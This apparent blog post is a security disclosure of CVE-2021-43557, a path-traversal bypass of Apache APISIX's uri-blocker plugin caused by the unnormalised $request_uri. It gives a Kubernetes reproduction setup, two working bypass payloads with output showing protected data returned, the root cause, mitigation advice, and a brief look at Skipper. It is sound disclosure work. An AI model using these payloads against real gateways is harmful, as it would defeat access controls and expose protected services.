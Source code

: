 ```yaml
---
title: "关于 Apache APISIX Ingress Controller request_uri 变量不安全问题的研究报告"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- CVE
- Request_uri
- 安全漏洞
description: 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中`$request_uri` 变量不安全使用的问题研究。
tags: [Technology]
---
```


> 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中 `$request_uri` 变量不安全使用的问题研究。

<!--truncate-->

本文提及的 Ingress Controller 中 `$request_uri` 变量不安全使用的问题，目前该漏洞已被确认为 CVE-2021-43557。在向社区及时反馈后，目前该漏洞已第一时间被修复。同时在文章最后，我也将简要地提到我为同一问题测试的[Skipper](https://github.com/zalando/skipper)。

> Apache APISIX 是一个动态的、实时的、高性能的 API 网关。Apache APISIX 提供丰富的流量管理功能，如负载平衡、动态上游、金丝雀释放、断路、认证、可观察性等。

为什么是 `$request_uri`？

[`$request_uri`](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri)在认证和授权插件中被多次使用。因为它是**不规范的**，所以就增加了绕过一些限制的可能性。

在 Apache APISIX 中，没有典型的外部认证/授权功能。你可以编写自己的插件，但过程是相当复杂的。为了证明 Apache APISIX 容易受到路径遍历的影响，我将使用 `uri-blocker` 插件进行接下来的演示与操作。

## 开始部署

首先将 Apache APISIX 安装到 Kubernetes 中。在这里我使用了 Helm Chart 0.7.2 版本。

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

> 如果安装时出现问题，请参考[官方指南](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md)。

接下来创建 Ingress 路由，在这里就需要部署 `ApisixRoute` 资源：

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

`ApisixRoute` 可以做到以下内容：

- 为 `public-service` 和 `private-service` 创建路由
- 开启 `proxy-rewrite` 来删除前缀
- 为 `protected-service` 配置了 `uri-blocker` 插件。这个插件会阻止任何以 `/protected-service` 开头的请求

## 漏洞复现

在这里，我使用的是 **2.10.0** 版本的 Apache APISIX。

在 minikube 中接触到 Apache APISIX 路由是相当不方便的：`kubectl exec -it -n ${Apache APISIX namespace} ${Apache APISIX Pod name} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'`。

为了较少重复操作，我自己配置了一个小脚本，作为模板工作：

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

> 在个人实际使用中，可将 `apisix-dc9d99d76-vl5lh`替换为个人实际的 Apache APISIX Pod 名称。

接下来让我们开始验证路由和插件是否按预期正常工作：

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

从上边我们看到，`public-service` 是可用的，`protected-service` 则被插件阻止了。

现在让我们测试一下有效载荷：

- 情况一

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

- 情况二

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

正如你所看到的，在上述两种情况下，我都能够绕过 Uri 的限制。

### 根本原因

出现上述情况的根本原因是 `uri-blocker` 插件在做出阻止决定的逻辑中使用了 `ctx.var.require_uri` 变量。这点可以在[代码](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98)中进行详细查看。

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### 漏洞影响

- 攻击者可以绕过访问控制限制，访问到原本不允许访问的路线
- 自定义插件的开发者不知道 `ngx.var.request_uri` 变量是不可信任的状态

同时在搜索 `var.request_uri` 相关用法时，我猜测上述漏洞或许对 [authz-keycloak 插件](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) 也有影响。

具体细节详情可以参考[这段代码](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578)。如果 keycloak 方面没有进行相关规范化，那么出现漏洞的可能性就很大。

### 缓解措施

关于此漏洞的解决方法，我个人建议如果是使用自定义插件的话，可在使用 `ngx.var.request_uri` 变量前进行路径规范化的相关处理。

同时可以额外检查下 `ctx.var.upstream_uri` 和 `ctx.var.uri` 这两个变量，虽然可能已经被规范化了，但防患于未然。

## Skipper

Skipper 是我个人在进行上述安全漏洞调查时接触到的另一个 Ingress Controller。因其内容久远未更新，在 Kubernetes 中安装它并不容易。幸运的是，我在开发者文章里找到了如何安装它的相关内容。

这项 Ingress 提供了基于 [webhook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook) 实现的外部认证可能性。

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

通过添加一些 headers 可以帮助访问控制决策，但需要用 `setRequestHeader` 过滤器手动完成。

有一个模板可以通过使用 `${}` 来注入变量，但遗憾的是（对攻击者来说）`${request.path}` 有正常化的路径。在它的开发代码中可以看到，开发人员并没有轻易使用 `RequestURI` 和`originalRequest`。

在这种情况下，我没有进行相关的路径遍历测试。但 Skipper 仍然是安全可信的一个 Ingress Controller 选择。

## 个人补充

虽然前文中我提到了 Apache APISIX 存在路径遍历的漏洞。但是这个漏洞并不影响任何外部认证，只是影响了使用 `ctx.var.request_uri` 变量的插件。同时该漏洞已被 Apache APISIX 进行了及时修复，目前已没有安全漏洞问题，大家可放心使用。

关于本文中提到的全部代码都可以在[这里](https://github.com/xvnpw/k8s-CVE-2021-43557-poc)进行查阅参考。
